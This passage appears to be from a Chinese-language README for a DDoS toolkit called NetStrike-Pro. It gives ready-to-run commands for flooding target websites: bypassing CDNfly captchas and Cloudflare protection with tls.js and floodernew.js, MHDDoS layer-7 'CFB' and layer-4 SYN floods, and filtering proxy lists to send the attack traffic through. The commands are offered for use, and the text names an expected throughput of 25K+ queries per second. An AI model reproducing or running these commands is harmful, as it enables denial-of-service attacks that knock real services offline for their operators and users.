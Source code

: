 
### 示例 2: 攻击带 CDNfly 验证码的网站

```bash
# 方式 A: 全自动（推荐）
node main.js -u https://target-with-cdnfly.com -p proxy.txt -t 20 -r 15 -s 300 -c -o

# 方式 B: 手动绕过
cd cdnfly_bypass/计算
python3 code.py  # 获取验证码答案
# 手动填入，获取 Cookie

cd ../..
node floodernew.js POST "https://target.com" 300 32 120 proxy.txt \
    --cookie "__cfduid=xxx; session=yyy"
```

---

### 示例 3: 攻击 Cloudflare 保护的网站

```bash
# 使用 tls.js（最强 Cloudflare 绕过）
cd NetStrike-Pro/legacy/新建文件夹
node tls.js https://target.com 300 256 20 ../proxy_paid.txt

# 预期: 25K+ QPS，高穿透率
```

---

### 示例 4: MHDDoS 攻击

```bash
cd NetStrike-Pro/legacy/mhddos

# Layer 7 - CFB 方法（Cloudflare Bypass）
python3 start.py CFB 0 https://target.com 200 ../proxy_paid.txt 100 300

# Layer 4 - SYN Flood
python3 start.py SYN target.com 200 ../proxy_paid.txt 100 300
```

---

## 🛠️ 常见问题

### Q1: 如何筛选代理？

```bash
cd NetStrike-Pro
python3 超高速筛选.py

# 会自动读取 proxy.txt 并筛选到 proxy_filtered.txt
```

---